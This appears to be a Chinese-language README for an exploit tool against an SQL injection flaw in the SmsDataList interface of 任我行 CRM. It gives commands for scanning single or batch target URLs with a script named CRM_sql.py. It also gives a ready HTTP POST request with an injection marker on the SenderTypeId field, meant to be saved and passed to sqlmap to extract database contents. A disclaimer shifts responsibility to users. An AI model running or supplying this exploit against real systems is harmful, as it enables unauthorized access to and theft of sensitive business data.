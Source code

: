 # 任我行 CRM SmsDataList SQL注入

任我行 CRM SmsDataList 接口存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。



## 工具利用

python3 CRM_sql.py -u http://127.0.0.1:1111 单个url测试

python3 CRM_sql.py -f url.txt 批量检测

扫描结束后会在当前目录生成存在漏洞url的vuln.txt

poc：

![](./poc.jpg)

exp：

将数据包保存为txt用sqlmap可得到数据
```
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.1361.63 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 170

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=00000000*
```
![](./exp.jpg)
## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
